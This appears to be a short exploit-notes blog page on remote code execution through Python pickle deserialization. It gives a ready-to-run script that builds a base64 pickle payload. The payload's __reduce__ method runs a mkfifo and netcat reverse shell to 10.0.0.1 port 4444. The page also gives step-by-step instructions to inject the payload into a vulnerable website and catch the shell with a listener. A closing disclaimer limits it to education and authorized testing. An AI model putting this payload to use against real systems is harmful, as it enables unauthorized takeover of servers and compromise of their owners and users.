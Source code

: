 ```yaml
---
title: PYTHON PICKLE RCE
date: 2023-05-05 01:35:40 +/-TTTT
categories: [learning, web]
tags: [learning]     # TAG names should always be lowercase
---
```


The python “pickle” module, that serializes and deserializes a Python object, is vulnerable to remote code execution. If the website uses this module, we may be able to execute arbitrary code.

# Exploitation
Below is the Python script (”mypickle.py”) to generate the payload to reverse shell.

```py
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.0.1 4444 > /tmp/f')
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```
Now run this script to generate the Base64 payload.

```py
python3 mypickle.py
```
Copy the ourput base64 string and paste it to where the payload affects in website.
Before reloading the web page, start a listener in local machine.
```
nc -lvnp 4444
```
Then reload the page. We should get a shell in local terminal.

# References
* https://davidhamann.de/2020/04/05/exploiting-python-pickle/

# Disclaimer
```
Exploit Notes are only for educational purpose or penetration testing, not attacking servers that you're not authorized. This site will not take any responsibility even if you attack the server illegally or cause damage unintentionally. Please use the contents in this site at your own risk.
The contents of this site are not original, but based on the information on the internet, the author actually tried and functioned. Although the author strives to post the latest information on the content of this site as much as possible, there is no guarantee that it will always be new.
```
